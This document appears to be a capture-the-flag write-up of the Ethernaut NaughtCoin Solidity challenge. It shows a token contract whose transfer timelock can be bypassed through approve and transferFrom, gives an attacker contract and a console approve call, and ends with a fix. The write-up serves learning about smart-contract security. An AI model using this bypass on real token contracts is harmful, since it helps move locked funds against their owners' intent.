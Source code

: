 **Description**

This challenge is about a user who got a really huge supply of a specific token. The thing is, that token is locked and cannot be exchanged. The player should wait 10 years before being able to exchange those tokens, but the player cannot wait to exchange those tokens, so the player has to transfer all those tokens to another account so he'll be able to exchange them. Let's take a look at the contract:
- **NaughtCoin.sol**
```solidity=
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import 'openzeppelin-contracts-08/token/ERC20/ERC20.sol';

 contract NaughtCoin is ERC20 {

  // string public constant name = 'NaughtCoin';
  // string public constant symbol = '0x0';
  // uint public constant decimals = 18;
  uint public timeLock = block.timestamp + 10 * 365 days;
  uint256 public INITIAL_SUPPLY;
  address public player;

  constructor(address _player)
  ERC20('NaughtCoin', '0x0') {
    player = _player;
    INITIAL_SUPPLY = 1000000 * (10**uint256(decimals()));
    // _totalSupply = INITIAL_SUPPLY;
    // _balances[player] = INITIAL_SUPPLY;
    _mint(player, INITIAL_SUPPLY);
    emit Transfer(address(0), player, INITIAL_SUPPLY);
  }

  function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
    super.transfer(_to, _value);
  }

  // Prevent the initial owner from transferring tokens until the timelock has passed
  modifier lockTokens() {
    if (msg.sender == player) {
      require(block.timestamp > timeLock);
      _;
    } else {
     _;
    }
  }
}
```
**Attack Scenario**
As we can see, the transfer function is locked by the lockTokens modifier, so it's going to be a challenge to retrieve these tokens, Let's look closer, The `approve` and `transferFrom` are not locked by this modifier, meaning we can just approve to another account the maximum amount possible and then call the `transferFrom` function, Let's hop on remix and write our attacker's contract.

The code looks like this:
- **Attack.sol**
```solidity=
pragma solidity 0.8.0;


interface InaughtCoin{
    function transferFrom(address from, address to, uint256 value) external returns (bool success);
}

contract Attack {
    address public player;
    address public instance;
    constructor (address _player, address _instance)
    {
        player = _player;
        instance = _instance;
    }

    function attackhh() external{
        InaughtCoin(instance).transferFrom(player, address(this), 1000000 * (10**uint256(18)));
    }
}
```

After deploying this contract on the testnet, we can get the contract's address and approve to it as much as possible. On the console, we are going to write this command.

```javascript
contract.approve(contract_address, web3.utils.toBN(2).pow(web3.utils.toBN(256)).sub(web3.utils.toBN(1)))
```

Those complex web3 calls are just a way to send the uint256.max since JS can't accept such a huge number. I found it [here](https://ethereum.stackexchange.com/questions/67378/passing-1-to-a-solidity-function-which-takes-a-uint256-argument-as-input).

After this, all that's left is to call the `attackhh` function and enjoy our exchangeable token.

**Recommendation**

When we need to lock funds for a period of time, we should make sure there is no way those tokens can exit a certain wallet, meaning we should disable all the functions that allow for exchanging tokens, such as the `transferFrom` function.